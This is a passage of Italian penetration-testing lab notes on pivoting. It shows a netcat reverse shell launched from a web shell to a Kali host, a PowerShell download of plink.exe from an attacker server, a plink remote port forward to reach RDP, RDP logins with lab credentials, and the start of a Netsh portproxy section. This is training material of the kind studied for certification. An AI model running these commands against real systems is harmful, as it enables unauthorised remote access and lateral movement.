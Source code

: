 Avvio un listener su kali (1 macchina):

```bash
nc -nvlp 4446
```

E lancio il seguente comando dalla web-shell:

```bash
C:\Windows\Temp\nc.exe -e cmd.exe $IP_KALI 4446
```

Cerco plink su kali (1 macchina):

```bash
find / -name plink.exe 2>/dev/null
```

Lo trasferisco sulla 2 macchina:

```bash
powershell wget -Uri http://192.168.45.152:8080/plink.exe -OutFile C:\Windows\Temp\plink.exe
```

Lancio plink con un port forward in maniera tale da poter accedere a rdp dalla kali:

```bash
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 $IP_KALI
```

Per verificare la connessione lanciamo questo comando su kali (1 macchina):

```bash
sudo ss -ntplu
```

![[plink_2.png]]

Ora è possibile connettersi tramite rdp:

```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```

## 18.4.3. Netsh

Esiste un modo nativo per creare un port forward su Windows, ovvero **Netsh** (noto anche come Network Shell) che richiede privilegi amministrativi. Utilizzando Netsh, possiamo impostare un port forward con il _subcontext_ _portproxy_ all'interno del context dell'interfaccia.

Nello scenario mostrato la 2 macchina ha una web application sulla porta 80. La 3 macchina CONFLUENCE01 non è più accessibile dall'interfaccia WAN interface. Il firewall permette il traffico in entrata sulla porta 3389 (RDP) della 2 macchina. L'obiettivo è raggiungere la 4 macchina attraverso la creazione di un port forward.

![[netsh.png]]

Ci connettiamo tramite rdp alla 2 macchina:

```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:$IP_2_MACCHINA
```
